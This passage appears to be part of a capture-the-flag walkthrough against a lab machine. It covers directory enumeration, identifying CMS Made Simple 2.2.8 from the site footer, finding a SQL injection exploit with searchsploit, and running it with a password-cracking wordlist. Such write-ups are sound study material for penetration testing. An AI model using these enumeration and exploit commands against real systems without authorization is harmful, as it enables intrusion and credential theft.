 ```
                                                                                                                                                                                             
---- Entering directory: http://10.10.35.19/simple/admin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Thu Aug 28 20:41:32 2025
DOWNLOADED: 13836 - FOUND: 5
```

The output wasn't redacted to ensure you can fully experience this and learn from it properly. *simple*, the directory seemed weird since I had never ever seen such a directory. However, I navigated to it and turned out to be some CMS named *CMS Made Simple*. This exploitation vector is a accurate and real case (that I had done literally yesterday minus the vulns!) of a user testing out a CMS leaving the web server's default as is.

## Exploitation

This CMS could be something we can exploit. We can try to find the CMS's version via further recon however it was luckily (and this is a bad thing!) disclosed literally on the website's footer. *CMS Made Simple version 2.2.8* is the result. 

```
┌─[root@parrot]─[/usr/share/exploitdb/exploits/php/webapps]
└──╼ #searchsploit CMS Made Simple version 2.2.8
Exploits: No Results
Shellcodes: No Results
┌─[root@parrot]─[/usr/share/exploitdb/exploits/php/webapps]
└──╼ #searchsploit CMS Made Simple 2.2.8
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                    | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The first search was improper. The second search returned a SQL injection exploit for versions less than *2.2.10* (which just happens to match)!. Let's navigate to and use the exploit. This exploit exploits a SQL injection flaw in the News module of the CMS, returning admin usernames, e-mail addresses and hashes.

```
┌─[root@parrot]─[/usr/share/exploitdb/exploits/php/webapps]
└──╼ #python2 46635.py -u http://10.10.35.19/simple --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/top-500-worst-passwords.txt
```
